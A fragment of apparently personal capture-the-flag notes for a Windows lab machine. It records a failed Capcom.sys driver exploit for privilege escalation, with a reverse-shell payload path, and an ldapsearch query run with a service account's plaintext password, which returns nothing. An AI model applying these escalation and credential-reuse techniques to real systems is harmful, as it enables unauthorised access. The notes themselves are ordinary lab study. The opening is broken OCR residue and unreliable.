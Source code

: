 - I tried this as an alternative but it failed :https://github.com/JoshMorrison99/SeLoadDriverPrivilege
	```bash
.\ExploitCapcom.exe

---OUTPUT---
[+] No path was given. Default path C:\ProgramData\rev.exe
[*] Capcom.sys exploit
[-] CreateFile failed
```

----
--------------
## Extras
### LDAPsearch
- Also tried ldapsearch to see if we could get anything with these credentials:
	```bash
ldapsearch -H ldap://return.local -D 'svc-printer@return.local' -w '1edFg43012!!' -b "DC=return,DC=local"
```
	- We don't find anything of value. No other users, nothing
-------
--------